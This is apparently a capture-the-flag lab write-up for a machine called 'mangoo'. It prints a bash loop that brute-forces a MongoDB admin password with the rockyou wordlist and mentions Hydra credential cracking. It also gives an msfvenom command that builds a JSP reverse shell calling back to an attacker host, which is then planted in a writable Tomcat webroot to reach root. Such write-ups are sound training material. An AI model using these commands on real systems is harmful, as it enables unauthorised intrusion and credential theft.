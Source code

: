 # mangoo


__MACHINE IP__: 10.1.1.21

__DATE__: 9/10/2019

__START TIME__: 11:47 PM

## NMAP

![](images/nmap.png)

So quite a few ports open. I tried looking around those services but nothing made sense to me. After spending lot of time to find the proper foothold I deicded to ask @andreaz, he told me to do a full port scan to find something useful.

We can see that there is a mongodb server.

## Mongodb

I tried to connect to it with admin user but it didn't worked

```bash
#!/bin/bash
for pass in `cat CTFs/lists/rockyou.lst`; do
    echo "Trying $pass"
    mongo 10.1.1.21 --port 27018 -u "admin" -p "$pass" --authenticationDatabase "admin"
done
```

This script can help us dictinary attack the mongodb service.

![](images/brute.png)

We can see that `iloveyou` is the password. So you can also use

```
➜ mongo 10.1.1.21 --port 27018 -u "admin" -p "iloveyou" --authenticationDatabase "admin"
```

![](images/credentials.png)

I had usernames and password so I made a list for user and pass and passed them to `hydra.`

![](images/crack.png)

Then I logged in as `chwaki:valentine` and got user

![](images/user.png)


***

## Privilege escalation

The enumeration script didn't gave away anything interesting except the fact that there were two user `chawki` and `tomcat8`. I started to look around but couldn't find anything. Then I realized that the website on port `8080` said something about `tomcat` being installed on `Catalina`. So I searched around for some tomcat exploit with catalina and I came across [Apache Tomcat 8/7/6 (Debian-Based Distros) - Local Privilege Escalation](https://www.exploit-db.com/exploits/40450) but this require us to be `tomcat` user.

Then I noticed that website also tells that tomcat is installed at `/var/lib/tomcat8/webapps/ROOT/`. So I decided to look at that directory and noticed that I have write permission in that directory that means I can make a new shell file and then visit it from website and it will be triggered.

```
➜ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.254.0.10 LPORT=4444 -f raw > shell.jsp
```

Then placed it there

![](images/rev.png)

Then I used find command to see if I can find any interesting directory for tomcat8 user,

![](images/find.png)

I noticed there was file named `tomcat-users.xml` and when I read the file I got the password for root user which I used to `su root`

![](images/root-shell.png)

![](images/root.png)
